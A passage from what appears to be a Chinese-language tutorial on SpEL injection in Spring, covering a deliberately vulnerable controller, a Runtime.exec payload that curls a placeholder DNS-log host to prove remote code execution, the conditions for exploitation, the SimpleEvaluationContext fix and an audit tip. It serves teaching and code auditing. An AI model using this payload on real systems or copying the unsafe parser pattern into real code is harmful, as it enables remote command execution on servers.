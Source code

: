 
**六、SpEL注入示例**
==============

        /**
         * SpEL to RCE
         * http://localhost:8080/spel/vul/?expression=xxx.
         * xxx is urlencode(exp)
         * exp: T(java.lang.Runtime).getRuntime().exec("curl xxx.ceye.io")
         */
        @GetMapping("/spel/vuln")
        public String rce(String expression) {
            ExpressionParser parser = new SpelExpressionParser();
            // fix method: SimpleEvaluationContext
            Expression expression1 = parser.parseExpression(expression);
            Object obje = expression1.getValue();
            String obj_str = obje.toString();
            return obj_str;
    
        }
    

`ExpressionParser parser = new SpelExpressionParser();`创建了一个表达式解析，将传入的`expression`解析为`Expression`对象

最终通过`getValue`方法执行表达式，`parseExpression`方法并不会执行表达式，最终的执行还是在`getValue()`

那么可以构造Payload为`T(java.lang.Runtime).getRuntime().exec("curl xxx.dnslog.cn")`

这里获取Runtime类，并通过调用`Runtime.getRuntime.exec()`进行命令执行

相关SpEL语法可见[https://zhuanlan.zhihu.com/p/339619962](https://zhuanlan.zhihu.com/p/339619962)

![](https://img2024.cnblogs.com/blog/2588316/202506/2588316-20250608203719564-1751639506.png)

**七、SpEL利用的前置条件**
=================

通过上面的学习，可以发现如果想要将SpEL升级成RCE，那么就必须具备一下三个条件

1.  传入的表达式未过滤
2.  表达式解析之后调用了getValue()或setValue()
3.  使用StandardEvaluationContext作为上下文对象（如果不指定，Spring默认使用StandardEvaluationContext）

**八、漏洞修复**
==========

使用`SimpleEvaluationContext`代替`StandardEvaluationContext`即可

**九、审计方法**
==========

全局搜索expression或更详细的调用方法等